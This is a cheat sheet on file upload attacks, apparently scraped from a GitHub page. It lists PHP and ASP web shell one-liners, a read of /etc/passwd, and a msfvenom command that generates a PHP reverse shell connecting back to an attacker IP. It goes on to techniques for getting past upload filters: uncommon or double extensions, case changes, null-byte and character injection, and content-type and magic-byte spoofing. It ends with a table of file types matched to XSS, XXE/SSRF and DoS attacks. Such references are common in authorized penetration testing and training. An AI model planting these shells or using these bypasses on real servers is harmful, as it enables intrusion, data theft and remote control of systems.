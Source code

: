 # Web Shells

## Web Shell	Description
| Web Shell                                               | Description                           |
|---------------------------------------------------------|---------------------------------------|
| `<?php file_get_contents('/etc/passwd'); ?>`           | Basic PHP File Read                   |
| `<?php system('hostname'); ?>`                         | Basic PHP Command Execution           |
| `<?php system($_REQUEST['cmd']); ?>`                   | Basic PHP Web Shell                   |
| `<% eval request('cmd') %>`                             | Basic ASP Web Shell                   |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                           | PHP Web Shell                         |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                                       | PHP Reverse Shell                     |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)                                      | List of Web Shells and Reverse Shells|

# Bypasses

## Client-Side Bypass	
- [CTRL+SHIFT+C]	Toggle Page Inspector

## Blacklist Bypass	
- `shell.phtml`	Uncommon Extension
- `shell.pHp`	Case Manipulation

## PHP Extensions	
- List of PHP Extensions

## ASP Extensions	
- List of ASP Extensions

## Web Extensions	
- List of Web Extensions

## Whitelist Bypass	
- `shell.jpg.php`	Double Extension
- `shell.php.jpg`	Reverse Double Extension
- `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, …	Character Injection - Before/After Extension

## Content/Type Bypass	
- Web Content-Types	List of Web Content-Types
- Content-Types	List of All Content-Types
- File Signatures	List of File Signatures/Magic Bytes

## Limited Uploads
| Potential Attack | File Types            |
|------------------|-----------------------|
| XSS              | HTML, JS, SVG, GIF   |
| XXE/SSRF         | XML, SVG, PDF, PPT, DOC |
| DoS              | ZIP, JPG, PNG        |
